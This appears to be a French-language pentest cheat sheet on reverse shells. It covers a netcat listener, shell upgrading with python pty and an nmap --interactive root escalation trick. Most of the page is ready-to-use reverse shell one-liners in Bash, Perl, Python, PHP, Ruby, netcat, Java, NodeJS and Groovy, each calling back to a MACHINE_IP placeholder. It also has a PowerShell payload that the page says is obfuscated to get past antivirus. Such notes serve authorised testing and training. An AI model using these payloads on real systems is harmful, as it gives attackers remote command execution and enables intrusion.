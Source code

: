 
  
Un reverse shell est un [[Shell_explanation]] entre une machine cible et la notre.

## __Setup Netcat Listener__

Démarrage d’un serveur **Netcat** pour être à l’**écoute d’un port**.

```shell
user@ip:~$ rlwrap nc -vnlp 1234
```

Attendez que votre [script](#__Scripts__) soit éxécuté.

Une fois le reverse shell en marche, pour switcher vers un **fully interactive shell**.

```shell
$ python -c 'import pty; pty.spawn("/bin/bash")';
```

On peut ensuite utiliser **`su`** pour se connecter.

## __Nmap --interactive__

**Seulement pour les version 2.02 à 5.21**
Si notre utilisateur a les permissions d'utiliser nmap, on peut utiliser [nmap pour se connecter en root](https://gtfobins.github.io/gtfobins/nmap/#shell) sur notre shell, pour cela :

```shell
user@linux:/$ nmap --interactive
nmap> !sh
```

C'est une des astuces disponibles dans [Privilege_Escalation](Privilege_Escalation.md).

## __Scripts__

Pour générer des reverses shells vous pouvez utiliser le site de 0day, [revshells](https://www.revshells.com/)
Vous pouvez aussi utiliser [ce git](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#nodejs)

### Bash

```bash
bash -i >& /dev/tcp/MACHINE_IP/1234 0>&1
```

### Perl

```perl
perl -e 'use Socket;$i="MACHINE_IP";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

### Python

```python
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("MACHINE_IP",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### Php

```php
php -r '$sock=fsockopen("MACHINE_IP",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

ou 

[Celui ci](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php), mais windows defender le supprimera.

### Ruby

```ruby
ruby -rsocket -e'f=TCPSocket.open("MACHINE_IP",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

### Netcat

```shell
nc -e /bin/sh MACHINE_IP 1234
```

### Java

```java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/MACHINE_IP/1234;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

### NodeJS

```javascript
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(1234, "MACHINE_IP", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application from crashing
})();
```

### Groovy

```groovy
String host="MACHINE_IP";
int port=1234;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();
Socket s=new Socket(host,port);
InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();
OutputStream po=p.getOutputStream(),so=s.getOutputStream();
while(!s.isClosed()){
	while(pi.available()>0)so.write(pi.read());
	while(pe.available()>0)so.write(pe.read());
	while(si.available()>0)po.write(si.read());
	so.flush();
	po.flush();Thread.sleep(50);
	try {p.exitValue();break;}catch (Exception e){}
};
p.destroy();
s.close();
```

### Powershell

Ce shell est chiffré en [base64](Encryption_Chiffrement) car il est repéré par la plupart des antivirus windows. 

```powershell
"$84b5d7ab8755451cb386a79589e39fa8 = New-Object System.Net.Sockets.TCPClient('127.0.0.1',8181); $3b95c1d3d7dc4e4fa6474ce1bceae743 = $84b5d7ab8755451cb386a79589e39fa8.GetStream(); [byte[]] $367ad63a4a834bf5bb275aab24a4890c = 0..65535|%{0}; while(($d084ee484cf44c09b003024847840f3d = $3b95c1d3d7dc4e4fa6474ce1bceae743.Read($367ad63a4a834bf5bb275aab24a4890c, 0, $367ad63a4a834bf5bb275aab24a4890c.Length)) -ne 0){; $b16fd2353f0d413484e1583776256f61 = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($367ad63a4a834bf5bb275aab24a4890c,0, $d084ee484cf44c09b003024847840f3d); $b396f8bb13ec47c28e4f721085e95361 = (iex $b16fd2353f0d413484e1583776256f61 2>&1 | Out-String ); $2bfb84697b834fa09479071ec68d6b19 = $b396f8bb13ec47c28e4f721085e95361 + 'PS' + $(gl) + '> '; $12e0e1f0c5e14474b53907ee11f75ed7 = ([text.encoding]::ASCII).GetBytes($2bfb84697b834fa09479071ec68d6b19); $3b95c1d3d7dc4e4fa6474ce1bceae743.Write($12e0e1f0c5e14474b53907ee11f75ed7,0, $12e0e1f0c5e14474b53907ee11f75ed7.Length);$3b95c1d3d7dc4e4fa6474ce1bceae743.Flush()}; $84b5d7ab8755451cb386a79589e39fa8.Close()"
```